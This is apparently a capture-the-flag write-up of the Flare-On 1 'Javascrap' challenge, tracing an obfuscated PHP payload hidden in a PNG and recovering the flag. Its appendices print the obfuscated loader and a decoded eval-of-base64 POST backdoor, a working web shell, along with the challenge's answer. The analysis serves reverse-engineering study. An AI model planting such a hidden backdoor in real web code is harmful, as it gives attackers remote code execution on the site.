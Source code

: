 ```yaml
---
title: Flare-On1 - 02 - Javascrap
author: Richey Ward
slug: flare-on1-02-javascrap
date: 2023-11-20
tags:
  - Flare-On
  - Flare-On1
categories:
  - CTF
draft: true
summary: |
  This challenge was presented as a zip file. The zip contains a HTML file and a png. Opening the HTML file in a browser shows the following.
---
```


## Initial

This challenge was presented as a zip file. The zip contains a HTML file and a png. Opening the HTML file in a browser shows the following.

![](02-01.png)

Checking the source code showed nothing of interest. Looking closer at the png file with _strings_ however provides results, there appears to be a PHP payload embedded.

![](02-02.png)

## PHP Payload 1

Extracting and analyzing the PHP code declares two arrays: `terms` and `order`, then it iterates through each value of `order`, looking up the character at that index in `terms` and then appends to new string `do_me`.

A quick modification and execution of this in **ipython** gives us a new payload:

![](02-03.png)

## PHP Payload 2

Three vars are set, and then an execution occurs at the end: `eval($___($__));`

`"$___"` is equal to value `"\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65"` which converts to `base64_decode`.

`"$__"` is equal to `JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7` which converts to `$code=base64_decode($_);eval($code);`

`$_` decoded equals:

```
if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76
\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68
\79\84\99\x6F\x6D"])) 
{ eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79
\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53
\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); }
```

The first encoded string equals `a11DOTthatDOTjava5crapATflareDASHonDOTcom`

![](02-04.png)

Decoding the second string shows the same value.

Flag: `a11.that.java5crap@flare-on.com`

**Tools Used**

- strings
- ipython

### Appendix A - Raw Source

```php
<?php $terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", 
"Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", 
"n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", 
"~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", 
",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", 
"_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", 
"K", "c", "B", "t", "R", "4", "8", "e", "|");
$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 
76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 
58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 
18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 
28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 
40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 
12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 
19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 
48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 
48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 
0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 
63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 
86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 
28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 
80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 
93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 
28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 
28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 
28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 
93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 
0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 
0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 
63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 
87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 
37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 
73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 
90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 
19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 
51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 
37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 
91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 
29, 29, 47);
$do_me="";
for($i=0;$i<count($order);$i++){$do_me=$do_me.$terms[$order[$i]];}
eval($do_me); ?>
```

### Appendix B - First payload

```php
$_= 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";eval($___($__));
```

### Appendix C - Second Payload

```php
if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) { eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); }
```